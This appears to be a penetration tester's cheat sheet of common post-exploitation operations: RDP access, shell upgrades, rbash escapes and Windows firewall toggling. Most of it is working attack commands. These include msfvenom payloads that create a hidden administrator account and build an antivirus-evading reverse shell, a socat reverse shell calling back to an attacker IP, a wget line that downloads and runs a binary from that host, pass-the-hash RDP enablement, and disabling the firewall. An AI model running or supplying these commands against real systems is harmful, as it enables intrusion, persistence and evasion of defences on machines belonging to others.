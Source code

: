 ```yaml
---
description: chown chmod su ; windows prefer C:\ instead of /
---
```


# Common Operations (tty, SSH, rbash)

{% embed url="https://www.revshells.com/" %}
generate shell
{% endembed %}

### rdp

{% code overflow="wrap" %}
```

proxychains xfreerdp /d:sandbox(.local) /u:alex /p:'xxx' /v:10.5.5.20 +clipboard +drives /tls-seclevel:0

/pth:hash <-> /p:'pwd'

sudo crackmapexec smb 10.69.88.23 -u user -p password -M rdp -o ACTION=enable
(-H nthash)
```
{% endcode %}

{% hint style="info" %}
Check "[File transfer](general/common-operations-tty-ssh-rbash/file-transfer.md#xfreerdp-drive-share-or-just-host-on-http-ser-and-browse-to-download)" for drive share
{% endhint %}

{% embed url="https://github.com/andrew-d/static-binaries/tree/master/binaries" %}
Link for wget correct architecture of useful tools onto victim
{% endembed %}

Setup nc listener with a opened port from nmap to avoid firewall block from victim

{% embed url="https://cheatsheet.haax.fr/shells-methods/reverse/" %}
rev shell methods
{% endembed %}

<pre data-overflow="wrap"><code><strong>
</strong><strong>msfvenom -p windows/exec CMD="cmd.exe /c net user /add pwn pwd &#x26;&#x26; net localgroup administrators pwn /add &#x26;&#x26; net localgroup \"Remote Desktop Users\" pwn /add" -a x86 -f exe --platform windows > X.exe
</strong><strong>
</strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.173 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw -o shell.bin
#shellter custom payload to avoid av
shellter A > N > C > .bin > N 
</code></pre>

### TTY interactive shell

<pre><code>/usr/bin/script -qc /bin/bash /dev/null

python2 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'

<strong>python -c 'import pty; pty.spawn("/bin/sh")'
</strong></code></pre>

#### full interactive

{% embed url="https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/" %}

{% embed url="https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/gaining-tty.rst" %}

socat

{% code overflow="wrap" %}
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.125:143

wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
wget -q http://192.168.119.125/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.119.125:143
```
{% endcode %}

nc

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ echo $TERM; stty size; stty raw -echo; fg #note the value
#*enter*2

# In reverse shell
$ reset
# 
$ export SHELL=bash
$ export TERM=xterm-256color #value from b4
$ stty rows <num> columns <cols> #value from b4
```

### PATH and SHELL fix

```

export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export SHELL=/bin/bash:$SHELL

#prioritized /tmp script path
export PATH=/tmp:$PATH
```

### .c compiling

{% hint style="info" %}
add `-static` if `version GLIBC not found` error
{% endhint %}

```bash
gcc ###.c -o {outputname}
```

```
# old glibc compatibility 
gcc (-m32) -Wl,--hash-style=both (-static) -o exploit ###.c
```

### Compatible SSH

{% code overflow="wrap" %}
```
ssh who@10.11.1.141 -p 22 -o KexAlgorithms=+diffie-hellman-group1-sha1 -o HostKeyAlgorithms=+ssh-rsa
```
{% endcode %}

### Interactive session (escape rbash)

<pre><code>ssh alfred@10.11.1.101 -t "bash --noprofile" 

<strong>find /usr/bin/ -name find -exec /bin/bash -ip \; 
</strong><strong>
</strong><strong>ls $PATH (for available commands)
</strong><strong>
</strong><strong>vi
</strong><strong>:shell=/bin/sh
</strong><strong>:shell
</strong></code></pre>

### Windows  short path when can't use ""

{% embed url="https://superuser.com/questions/348079/how-can-i-find-the-short-path-of-a-windows-directory-file" %}

#### Windows firewall

```
netsh advfirewall set allprofiles state off
netsh advfirewall set allprofiles state on
```

#### reboot

```
shutdown -r -t 10
```
